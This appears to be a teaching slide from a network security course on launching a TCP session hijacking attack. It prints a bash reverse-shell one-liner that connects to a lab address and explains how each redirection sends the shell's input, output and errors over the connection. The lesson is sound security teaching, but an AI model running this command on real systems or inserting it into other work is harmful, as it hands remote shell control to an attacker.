

# Launch the TCP Session Hijacking Attack
What does this magic command do?
 	 /bin/bash -i  >/dev/tcp/10.9.0.1/9090    2>&1    0<&1
It redefines the standard out (1) to the new tcp connection
Assign the standard error output address (descriptor 2) to the address of descriptor 1  (that is, the new tcp connection)
Assign the standard input address (descriptor  0) to the address of descriptor 1  (that is, the new tcp connection again)
Thus, intput, output, error output are all directed to the new connection.